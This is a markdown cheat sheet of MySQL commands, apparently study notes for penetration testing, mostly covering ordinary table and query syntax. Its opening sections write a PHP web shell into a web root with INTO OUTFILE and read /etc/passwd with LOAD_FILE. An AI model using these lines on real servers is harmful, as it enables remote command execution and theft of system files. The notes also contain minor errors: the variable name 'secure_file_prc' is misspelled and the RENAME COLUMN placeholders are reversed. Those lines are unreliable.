 -- -
### Write Local File
```mysql
SELECT "<file contents>" INTO OUTFILE '<path>';
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
### Read Local File
```mysql
SELECT LOAD_FILE("<path>");
select LOAD_FILE("/etc/passwd");
```
### Secure File Priv
`secure_file_priv` is a global variable that effects data import and export operations such as the above output file operation. Main areas of effect:
- If set to a directory, the server limits import and export to the specified directory, so you can only read or write files to that specific directory.
- If set to NULL the server disables import and export operations
- If empty, there is no effect. So you can read or write files from wherever on the server with no limitations. 
```mysql
show variables like "secure_file_prc";
```
#### General Commands
```mysql
# Note: the caps are optional, can do either.
SHOW GRANTS; # show allowed queries for your logged in user

# interact w/ databases
CREATE DATABASE <db name>; # create a new database
SHOW DATABASES; # show available databases
USE <db name>; # Load a database by name

# interact w/ tables
SHOW TABLES; # show the tables on the loaded database
DESCRIBE logins; # list table structure/fields/columns
```
#### Creating a new table
```mysql
# General
CREATE TABLE logins ( # create a new table w/ fields
	id INT,
	username VARCHAR(100),
	pass VARCHAR(100),
	date_of_joining DATETIME
);

# set id field is a required field that cannot be null and is auto increment when a new ID value is set upon new entry to the table.
id INT NOT NULL AUTO_INCREMENT,

# ensure each username is unique, and is a required field for new entries
username VARCHAR(100) UNIQUE NOT NULL,

# Set default value on new entries if vvalue not provided
date_of_joining DATETIME DEFAULT NOW(),

# Set primary key, which will uniquely identify each record in the table, referring to all data of a record within a table for relational databses. 
PRIMARY KEY(<field name>)

# all configs above used:
CREATE TABLE logins (
	id INT NOT NULL AUTO_INCREMENT,
	username VARCHAR(100) UNIQUE NOT NULL,
	password VARCHAR(100) NOT NULL,
	date_of_joining DATETIME DEFAULT NOW(),
	PRIMARY KEY (id)
);
```
#### Adding values to table
```mysql
# note that in this example, we insert user-pass combos in cleartext. This is bad security practice, as passwords should ALWAYS be hashed/encrypted before storage. 
# insert new entry into table
INSERT INTO <tabl name> VALUES (col1_val, col2_val, col3_val, ...);
INSERT INTO logins VALUES(1, 'admin', 'p@ssw0rd', '2020-07-02');

# can omit unrequired columns:
INSERT INTO logins(username, password) VALUES('administrator', 'adm1n_p@ss');
```
#### Retrieve records
```mysql
# grab all records from a table:
SELECT * FROM <tabl name>;
SELECT * FROM logins;

# select specific columns
SELECT <col1>, <col2> FROM <tabl name>;
SELECT username, password FROM logins;
```
#### Remove Tables/DBs
```mysql
# Will delete the table or db specified permanently w/o warning 
DROP TABLE <tabl name>;
```
#### Alter 
Can be used to rename a table or change/delete/add a  new column to an existing table
```mysql
# Add new column to existing table
ALTER TABLE <tabl> ADD <col> <datatype>;
ALTER TABLE logins ADD newColumn INT;

# Rename existing column in existing table
ALTER TABLE <tabl> RENAME COLUMN <new col> TO <old col>;

# change existing column's data type
ALTER TABLE <tabl> MODIFY <col> <datatype>;

# delete a column
ALTER TABLE <tabl> DROP <col>;
```
#### Sorting
```mysql
# Sort by column, default will sort in ascending order 
SELECT * FROM <tabl> ORDER BY <col>;

# sort by column, descending order
SELECT * FROM <tabl> ORDER BY <col> DESC;

# sort by 2 columns, one ascending order other descending so it knows what to do if there is duplicate data in one column.
SELECT * FROM <tabl> ORDER BY <col1> DESC, <col2> ASC; 
```